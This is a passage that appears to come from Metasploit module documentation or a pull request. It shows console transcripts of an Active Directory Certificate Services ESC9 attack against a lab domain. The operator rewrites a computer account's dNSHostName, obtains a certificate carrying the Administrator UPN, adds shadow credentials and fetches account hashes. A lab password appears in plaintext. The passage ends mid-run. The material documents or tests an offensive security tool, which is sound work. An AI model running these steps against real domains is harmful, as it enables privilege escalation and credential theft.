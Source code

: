 ```
[+] 172.16.199.200:445 - The requested certificate was issued.
[*] 172.16.199.200:445 - Certificate Policies:
[*] 172.16.199.200:445 - Certificate UPN: Administrator
[*] 172.16.199.200:445 - Certificate stored at: /home/msfuser/.msf4/loot/20250923135918_default_172.16.199.200_windows.ad.cs_341723.pfx
[*] 172.16.199.200:445 - Reverting ldap object
[*] 172.16.199.200:445 - Loading auxiliary/admin/ldap/ldap_object_attribute
[*] 172.16.199.200:445 - Running auxiliary/admin/ldap/ldap_object_attribute
[*] New in Metasploit 6.4 - This module can target a SESSION or an RHOST
[*] Attempting to delete attribute userPrincipalName from CN=user2,CN=Users,DC=kerberos,DC=issue...
[+] Successfully deleted attribute userPrincipalName from CN=user2,CN=Users,DC=kerberos,DC=issue
[+] The operation completed successfully!
[*] Auxiliary module execution completed
msf auxiliary(admin/dcerpc/esc_update_ldap_object) >
```

### ESC9 - Update dnsHostName to `dc2.kerberos.issue`
```
 msf6 auxiliary(admin/dcerpc/esc_update_ldap_object) > set rhosts 172.16.199.200
rhosts => 172.16.199.200
msf6 auxiliary(admin/dcerpc/esc_update_ldap_object) > set ldaprport 389
ldaprport => 389
msf6 auxiliary(admin/dcerpc/esc_update_ldap_object) > set target_username "Test2$"
target_username => Test2$
msf6 auxiliary(admin/dcerpc/esc_update_ldap_object) > set UPDATE_LDAP_OBJECT_VALUE dc2.kerberos.issue
UPDATE_LDAP_OBJECT_VALUE => dc2.kerberos.issue
msf6 auxiliary(admin/dcerpc/esc_update_ldap_object) > set UPDATE_LDAP_OBJECT dnsHostName
UPDATE_LDAP_OBJECT => dNSHostName
msf6 auxiliary(admin/dcerpc/esc_update_ldap_object) > set CA kerberos-DC2-CA
CA => kerberos-DC2-CA
msf6 auxiliary(admin/dcerpc/esc_update_ldap_object) > set CERT_TEMPLATE ESC9-Template-Dns
CERT_TEMPLATE => ESC9-Template-Dns
msf6 auxiliary(admin/dcerpc/esc_update_ldap_object) > set ldapdomain kerberos.issue
ldapdomain => kerberos.issue
msf6 auxiliary(admin/dcerpc/esc_update_ldap_object) > set ldappassword N0tpassword!
ldappassword => N0tpassword!
msf6 auxiliary(admin/dcerpc/esc_update_ldap_object) > set ldapusername Test1$
ldapusername => Test1$
msf6 auxiliary(admin/dcerpc/esc_update_ldap_object) > run
[*] Running module against 172.16.199.200
[*] 172.16.199.200:445 - Loading auxiliary/admin/ldap/ldap_object_attribute
[*] 172.16.199.200:445 - Running auxiliary/admin/ldap/ldap_object_attribute
[*] New in Metasploit 6.4 - This module can target a SESSION or an RHOST
[*] Current value of Test2$'s dNSHostName:
[*] Attempting to update dNSHostName for CN=Test2,CN=Computers,DC=kerberos,DC=issue to dc2.kerberos.issue...
[+] Successfully updated CN=Test2,CN=Computers,DC=kerberos,DC=issue's dNSHostName to dc2.kerberos.issue
[+] The operation completed successfully!
[*] 172.16.199.200:445 - Adding shadow credentials for Test2$
[*] 172.16.199.200:445 - Loading admin/ldap/shadow_credentials
[*] 172.16.199.200:445 - Running admin/ldap/shadow_credentials
[*] New in Metasploit 6.4 - This module can target a SESSION or an RHOST
[*] Discovering base DN automatically
[*] 172.16.199.200:389 Discovered base DN: DC=kerberos,DC=issue
[*] Certificate stored at: /Users/jheysel/.msf4/loot/20250730093954_default_172.16.199.200_windows.ad.cs_384135.pfx
[+] Successfully updated the msDS-KeyCredentialLink attribute; certificate with device ID 44760c6e-8637-598a-ad8e-04aa4b99ee58
[*] 172.16.199.200:445 - Loading admin/kerberos/get_ticket
[*] 172.16.199.200:445 - Getting hash for Test2$
```